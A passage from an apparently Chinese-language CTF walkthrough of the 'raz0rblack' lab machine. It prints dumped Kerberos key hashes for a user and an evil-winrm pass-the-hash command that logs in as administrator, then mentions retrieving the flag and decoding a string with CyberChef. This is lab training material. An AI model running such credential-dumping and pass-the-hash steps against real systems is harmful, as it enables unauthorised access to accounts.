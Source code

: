 ```
raz0rblack.thm\twilliams:aes256-cts-hmac-sha1-96:05bac51a4b8888a484e0fa1400d8f507b195c4367198024c6806d8eb401cb559
raz0rblack.thm\twilliams:aes128-cts-hmac-sha1-96:a37656829f443e3fe2630aa69af5cb5a
raz0rblack.thm\twilliams:des-cbc-md5:01e958b0ea6edf07
```

最后，从这里我们得到管理员散列。我们可以用这个通过`Evil-WinRM`登录系统

```
evil-winrm -i $IP -u administrator -H 9689931bed40ca5a2ce1218210177f0c
```

**得到旗帜。**

![](img/f81f29490ce4be15cb03a4d9b68715c6.png)

在密码字段中，我们得到一个长字符串。让我们用赛博网破解它。

![](img/a5246c03a89b82317beb90390274248c.png)
